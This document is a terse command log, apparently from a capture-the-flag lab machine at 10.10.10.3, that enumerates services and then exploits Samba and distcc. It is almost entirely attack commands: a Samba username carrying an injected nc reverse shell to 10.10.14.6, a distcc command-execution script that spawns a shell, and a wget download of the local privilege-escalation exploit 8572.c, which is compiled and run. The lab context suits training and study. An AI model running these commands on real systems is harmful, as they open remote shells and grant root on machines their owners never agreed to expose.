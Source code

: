 #   CMD 

```
nmap -sC -sV 10.10.10.3
```
-sC: run default nmap scripts <br>
-sV: detect service version

```
ls /usr/share/nmap/scripts/ftp*
```
/usr/share/nmap/scripts/ftp-anon.nse<br>
/usr/share/nmap/scripts/ftp-proftpd-backdoor.nse<br>
/usr/share/nmap/scripts/ftp-bounce.nse <br>
/usr/share/nmap/scripts/ftp-syst.nse<br>
/usr/share/nmap/scripts/ftp-brute.nse
/usr/share/nmap/scripts/ftp-libopie.nse <br>
/usr/share/nmap/scripts/ftp-vuln-cve2010-4221.nse
<h5>/usr/share/nmap/scripts/ftp-vsftpd-backdoor.nse</h5>

```
nmap --script ftp-vsftpd-backdoor -p 21 10.10.10.3
```
```
ls /usr/share/nmap/scripts/ssh*
```
```
smbclient -L 10.10.10.3
```
```
smbmap -H 10.10.10.3
```

#   Exploitation #1: Samba

```
nc -nlvp 4444
```
```
smbclient //10.10.10.3/tmp
```
```
logon "/=`nohup nc -nv 10.10.14.6 4444 -e /bin/sh`"
```
```
python3 -c 'import pty;pty.spawn("/bin/bash")' 
```
#   Exploitation #2: Distcc

```
nc -nlvp 4444
```
```
nmap -p 3632 10.10.10.3 --script distcc-cve2004-2687 --script-args="distcc-cve2004-2687.cmd='nc -nv 10.10.14.6 4444 -e /bin/bash'"
```
```
searchsploit -m 8572.c
```
```
python -m SimpleHTTPServer 9005
```
```
wget http://10.10.14.6:5555/8572.c
```
```
gcc 8572.c -o 8572  
```
```
ps -aux | grep devd
```
```
nc -nlvp 4445
```
```
./8572 2661
```
